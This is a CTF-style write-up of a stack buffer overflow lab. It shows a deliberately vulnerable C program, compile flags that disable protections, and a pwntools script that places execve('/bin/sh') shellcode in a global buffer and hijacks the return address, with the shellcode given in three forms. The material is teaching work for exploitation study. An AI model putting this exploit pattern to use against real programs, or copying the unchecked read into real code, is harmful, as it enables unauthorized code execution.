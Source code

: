 # Simple Buffer Overflow - 0x04
###### tags: `CTF` `PWN`

## Original Code
```clike!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char message[48];

int main()
{
    char name[16];
    printf("Give me your message: ");
    fflush(stdout);
    read(0, message, 0x30);
    fflush(stdout);
    read(0, name, 0x30);
    return 0;
}
```
* Actually, this is a variant of the [lecture 0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs)
* <font color="F0000">Note that</font>, the global variable has its own address, instead of local variable that push to stack that we don't know at first.
* The 1st `read` function has no overflow, but 2nd `read` function has.

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission access just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/yQ8PeWN.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/moSdC0R.png)

## Exploit
* The main idea of this problem is write down your shellcode in `message` global variable and use `BOF` of 2nd `read` function to overlap `%rip`
* First, observe the address of global variable - `message` → `4033c0`
![](https://imgur.com/dTVBnkK.png)
* So, we have to construct our shellcode in [lecture 0x02](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/BJRfEWFcs)
    ```python!
    from pwn import *

    r = process('./bof3')
    raw_input()

    # First, we must set our infrastructure of the platform
    context.arch = 'amd64'  # x86-64 → amd64, x86-32 → i386

    # asm function transfer your shellcode to machine language
    shellcode = asm('''
    mov    rbx, 0x68732f6e69622f
    push   rbx
    mov    rdi, rsp
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rax, 0x3b
    syscall
    ''')

    r.send(shellcode)   # Send to 1st read function

    payload = b'a' * 0x18 + p64(0x4033c0)

    r.send(payload) # Send to 2nd read function that has bof
    r.interactive()
    ```

    * Note that, the 3 methods below are equal
        
        ```python!
        shellcode = asm('''
        mov    rbx, 0x68732f6e69622f
        push   rbx
        mov    rdi, rsp
        xor    rsi, rsi
        xor    rdx, rdx
        mov    rax, 0x3b
        syscall
        ''')
        ```
        
        * Made by [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly)
        ```python!
        shellcode = asm('\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')
        ```
            
        * Made by `pwntools` built-in function
        ```python!
        shellcode = asm(shellcraft.sh())
        ```
* Then we got shell!!!
    ![](https://imgur.com/fQ9X9e6.png)